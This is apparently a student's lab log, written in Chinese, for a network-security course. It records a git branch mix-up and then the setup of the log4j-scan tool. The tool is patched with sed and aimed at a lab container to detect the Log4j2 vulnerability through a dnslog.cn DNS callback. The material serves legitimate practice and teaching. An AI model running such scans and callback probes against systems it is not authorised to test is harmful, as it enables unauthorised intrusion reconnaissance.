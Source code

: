 - [lihan3238 的实验日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md)


### 备注
提交到远程仓库时不小心将 `dalechu` 打成了 `Dalechu`, 相当于新建了一个分支, 并且合并到了 `main` 分支上. 现处理如下 : 对 `Dalechu` 分支进行 git rebase, 同步其内容, 删除 `dalechu` 分支. 经过认真检查, 主分支没有被破坏, 特此记录, 下次引以为戒 ! 

---


## 2024-07-10 : Log4j2 漏洞利用

### 内容

#### 下载工具 log4j-scan 并扫描漏洞 :

```shell
git clone https://github.com/fullhunt/log4j-scan.git

cd log4j-scan

# 安装依赖
pip install -r requirements.txt

# 在 log4j-scan.py 的 post_data_parameters 中手动添加 payload 参数或无脑替换 :  
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 将 log4j-scan.py 文件 349 行处的 GET 请求参数中的 `v` 改为 `payload` 

# 扫描靶场容器, 注意这里使用 get 而不是 post !!!
python log4j-scan.py --request-type get -u http://192.168.5.132:49576/hello --dns-callback-provider dnslog.cn
```

![](../img/DaleChu/pipreq.png)
